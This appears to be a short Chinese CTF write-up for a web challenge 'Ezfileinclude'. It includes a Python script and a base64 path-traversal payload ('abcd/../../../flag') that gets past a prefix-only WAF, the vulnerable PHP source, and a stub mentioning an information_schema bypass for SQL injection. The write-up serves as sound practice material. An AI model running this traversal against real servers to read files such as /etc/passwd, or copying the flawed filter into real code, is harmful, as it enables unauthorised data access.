

web
Ezfileinclude
http://183.129.189.60:10012/image.php?t=1596551067&f=Z3F5LmpwZw==
点开后发现是png的图片二进制，Z3F5LmpwZw==base64解码为gqy.jpg，可见为文件包含，分析得
t参数为时间戳（如果不知道参数的含义也没关系，直接正则匹配获取即可），会根据时间正确与否判断是否包含
脚本：
import requests
import time
import base64
#res=requests.get("http://183.129.189.60:10009/index.php")
#p=re.findall(r"t=(.+?)&f",res.text) 也可正则匹配实时获取时间戳
order="/gqy.jpg"
order=base64.b64encode(order.encode('utf-8')).decode('utf-8')
url="http://183.129.189.60:10012/image.php?t="+str(int(time.time()))+"&f="+order
res=requests.get(url)
print(res.text)
发现返回的内容与之前一致，说明拼接了目录。
将order=”../../../../../../etc/passwd”，返回You are not allowed to do that.，说明有waf。
waf过滤了../，导致了目录穿越不可用，也就无法读到其他源码和flag
后面看wp才发现这waf写的真奇葩，只验证前个字符，那只要将前几个随便写就行
order=”abcd/../../../../../../flag”，得flag: flag{847d2f93276a21f084c44f4d74c61ef4}
读取源码：
<?php
if(!isset($_GET['t']) || !isset($_GET['f'])){
echo "you miss some parameters";
exit();
}
$timestamp = time();
if(abs($_GET['t'] - $timestamp) > 10){
echo "what's your time?";
exit();
}
$file = base64_decode($_GET['f']);
if(substr($file, 0, strlen("/../")) === "/../" || substr($file, 0, strlen("../")) === "../" || substr($file, 0, strlen("./")) === "./" || substr($file, 0, strlen("/.")) === "/." || substr($file, 0, strlen("//")) === "//") {
echo 'You are not allowed to do that.';
}
else{
echo file_get_contents('/var/www/html/img/'.$file);
}
?>SQLi

一直试不出来，先占坑
（无列名注入+sys.x$schema_flattened_keys来绕过information_schema）